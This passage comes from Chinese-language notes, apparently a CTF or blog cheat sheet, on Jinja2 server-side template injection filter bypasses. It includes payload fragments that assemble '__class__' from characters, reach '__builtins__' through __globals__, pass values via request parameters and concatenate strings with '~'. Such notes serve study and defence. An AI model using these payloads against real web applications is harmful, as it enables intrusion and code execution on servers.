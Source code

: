 之后我们可以配合`~`去拼接我们想得到的东西

```
(()|select|string)[24]~
(()|select|string)[24]~
(()|select|string)[15]~
(()|select|string)[20]~
(()|select|string)[6]~
(()|select|string)[18]~
(()|select|string)[18]~
(()|select|string)[24]~
(()|select|string)[24]

得到字符串"__class__"
```

11.list

```
(()|select|string)[0]
如果中括号被过滤了，挺难的
但是列表的话就可以用pop取下标了
当然都可以使用__getitem__
(()|select|string|list).pop(0)

```

#### 获取内置方法 以chr为例

```
"".__class__.__base__.__subclasses__()[x].__init__.__globals__['__builtins__'].chr
get_flashed_messages.__globals__['__builtins__'].chr
url_for.__globals__['__builtins__'].chr
lipsum.__globals__['__builtins__'].chr
x.__init__.__globals__['__builtins__'].chr  (x为任意值)

```

#### request获取参数

如果是在web环境下面则可以利用下面获取参数

```
request.args.x1   	get传参
request.values.x1 	post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)

```

#### **在jinja2里面可以利用~进行拼接**

```
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
```
